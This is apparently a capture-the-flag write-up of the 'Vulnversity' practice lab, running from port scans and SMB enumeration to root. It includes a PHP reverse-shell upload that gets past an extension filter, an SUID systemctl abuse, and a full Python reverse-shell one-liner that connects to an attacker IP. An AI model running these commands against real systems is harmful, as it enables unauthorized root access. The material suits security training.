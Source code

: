 # Vulnversity

## Preparation

Added IP to /etc/hosts as vuln.hack

## Recon

Using Ping to identify OS
```
ping vuln.hack
PING vuln.hack (10.10.149.210) 56(84) bytes of data.
64 bytes from vuln.hack (10.10.149.210): icmp_seq=12 ttl=61 time=316 ms
```
Likely Linux.

Using nmap to identify all ports.
```
nmap -v -r -p- -T4 -oA recon/nmap/allports vuln.hack
...
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http
3333/tcp open  dec-notes
```

Using nmap to enumerate service versions.
```
nmap -v -r -p 21,22,139,445,3128,3333 -sV -sC -oA recon/nmap/fingerprinting vuln.hack
...
# Nmap 7.80 scan initiated Tue Jun  9 13:40:55 2020 as: nmap -v -r -p 21,22,139,445,3128,3333 -sV -sC -oA recon/nmap/fingerprinting vuln.hack
Nmap scan report for vuln.hack (10.10.149.210)
Host is up (0.35s latency).

PORT     STATE SERVICE      VERSION
21/tcp   open  ftp          vsftpd 3.0.3
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn?
445/tcp  open  netbios-ssn  Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy   Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http         Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m01s, deviation: 2h18m36s, median: 0s
| nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VULNUNIVERSITY<00>   Flags: <unique><active>
|   VULNUNIVERSITY<03>   Flags: <unique><active>
|   VULNUNIVERSITY<20>   Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2020-06-09T14:43:28-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-09T18:43:26
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  9 13:43:45 2020 -- 1 IP address (1 host up) scanned in 170.36 seconds
```

### FTP (21/TCP)

No anonymous login.

### SMB (445/TCP)

Null SID
```
smbclient -U '' -L vuln.hack
Enter WORKGROUP\'s password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (vulnuniversity server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Cannot access print share.
```
smbclient -U '' \\\\vuln.hack\\print$
Enter WORKGROUP\'s password: 
tree connect failed: NT_STATUS_ACCESS_DENIED
```

### HTTP (3333/TCP)

Enumerating directories
```
gobuster dir -u http://vuln.hack:3333/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -o recon/gobuster/root-big.txt 2> recon/gobuster/root-big.txt.err
```

There is a directory called "/internal" and it has a file upload function. Trying to upload a PHP webshell.

## Cracking the Perimeter

Using shellclip to make a PHP reverse shell.

PHP extensions are blocked. PHTML worked (used BurpSuite to fuzz the upload form). Looking for where it uploads.

http://vuln.hack:3333/internal/uploads/rev.phtml

Got a shell!
```
connect to [10.2.14.14] from (UNKNOWN) [10.10.149.210] 53146
/bin/sh: 0: can't access tty; job control turned off
$
```

User flag in /home/bill/

## Persistance

Persistence as www-data set on port 5253.

Downloaded to /dev/shm/ with wget

## Privilege Escalation

/bin/systemctl has the SUID bit set

Terminal is not fully functional so the screen buffer exploit may not work. Using GTFOBins SUID template.

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /montys.txt"
[Install]
WantedBy=multi-user.target' > $TF

systemctl link $TF
systemctl enable --now $TF
```

Used that to grab the flag. Coverting it to get a shell. Creating a service to make a reverse shell connection.

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/usr/bin/python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.2.14.14\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);"
[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Got a root shell by running that code and setting up a listener on 31337!